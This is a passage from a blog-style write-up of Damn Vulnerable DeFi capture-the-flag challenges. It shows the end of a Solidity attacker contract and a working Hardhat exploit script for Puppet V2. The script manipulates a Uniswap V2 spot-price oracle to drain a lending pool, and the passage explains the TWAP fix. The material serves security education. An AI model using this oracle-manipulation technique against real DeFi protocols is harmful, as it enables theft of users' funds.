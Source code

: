 ```sol
        (bool success, ) = payable(user).call{value: address(this).balance}("");
        require(success, "Failed to transfer eth");
    }

    receive() external payable {}
}

```

The takeaway from this challenge is to avoid using a single timestamp price from an oracle, as they can be easily manipulated. Even with sufficient liquidity, the use of a flash loan can still allow for significant price distortion.

### 9. Puppet V2

This challenge is essentially similar to the previous one, with the primary difference being its use of Uniswap V2. Although the challenge states that the lending pool utilizes Uniswap V2's recommended utility library, it actually only employs `UniswapV2Library.quote()`, which calculates just the pair's current price. Consequently, our approach to exploit this setup would be the same as in the last challenge.

A more effective oracle solution would involve using a time-weighted average price (which Uniswap V2 provides), as this approach makes it more challenging to manipulate the price.

```js
it('Execution', async function () {
    // Though this lendingPool uses uniswapv2 library, it is still using the pair's current price
    // instead of time-averaging it. Thus we can perform an oracle attack to drain the pool.

    // 1. Swap all of user's token to WETH to bring down token/WETH pair price.
    await token.connect(player).approve(uniswapRouter.address, PLAYER_INITIAL_TOKEN_BALANCE);
    await uniswapRouter.connect(player).swapExactTokensForTokens(
        PLAYER_INITIAL_TOKEN_BALANCE,
        0,
        [token.address, weth.address],
        player.address,
        (await ethers.provider.getBlock('latest')).timestamp * 2
    );

    // 2. User has close to 20 ETH after spending gas fee on the swapping on uniswap.
    await weth.connect(player).deposit({value: ethers.utils.parseEther("19.9")});

    // 3. Borrow all of lendingPool's token.
    const wethRequired = BigInt(await lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE));
    await weth.connect(player).approve(lendingPool.address, wethRequired)
    await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE);
});
```

### 10. Free Rider

This challenge consists of 3 parts:
1. An NFT Marketplace, which is our target for hacking.
2. A recovery contract, to which we aim to transfer the hacked NFTs in order to claim our prize.
3. A Uniswap V2 Exchange.
